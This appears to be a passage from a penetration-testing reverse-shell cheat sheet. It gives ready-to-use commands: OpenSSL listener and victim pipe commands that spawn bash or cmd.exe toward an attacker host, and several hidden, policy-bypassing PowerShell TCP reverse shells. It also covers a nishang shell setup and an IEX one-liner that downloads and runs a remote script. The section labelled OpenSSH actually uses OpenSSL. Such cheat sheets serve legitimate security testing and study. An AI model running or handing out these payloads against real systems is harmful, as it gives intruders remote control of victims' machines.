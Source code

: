 ### OpenSSH

Attacker

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificateopenssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commandsopenssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```

Victim

```
#Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
​
#Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```

### Powershell

```powershell
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
echo "" >> shell.ps1
echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 443" >> shell.ps1
```

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
